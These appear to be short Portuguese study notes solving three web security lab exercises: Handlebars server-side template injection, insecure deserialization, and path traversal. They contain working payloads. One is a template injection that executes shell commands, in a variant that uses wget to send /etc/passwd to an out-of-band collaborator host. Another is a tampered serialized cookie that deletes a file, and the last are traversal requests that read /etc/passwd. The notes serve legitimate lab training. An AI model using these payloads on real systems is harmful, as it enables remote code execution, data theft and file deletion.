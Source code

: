 
<br>
<br>

**Lab: Server-Side Template Injection in an Unknown Language with a Documented Exploit**

Identifique o SSTI no parâmetro da URL.
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Versão adaptada:
```
{this.push "return require('child_process').exec('wget --post-file /etc/passwd https://0qrgfsgr10mpp8uawojbyfam7dd41vsjh.oastify.com');"}}
```

<br>
<br>

**Lab: Using Application Functionality to Exploit Insecure Deserialization**

Delete o usuário adicional para estudar as requisições.

Na request `POST /my-account/delete`, altere o cookie serializado para:
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"upjgj8nlrqjsi09uqh41pflrceoig0lx";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

<br>
<br>

**Lab: File Path Traversal, Traversal Sequences Stripped Non-Recursively**
```
GET /image?filename=....//....//....//etc//passwd

Ou

/image?filename=..././..././..././etc/passwd
```
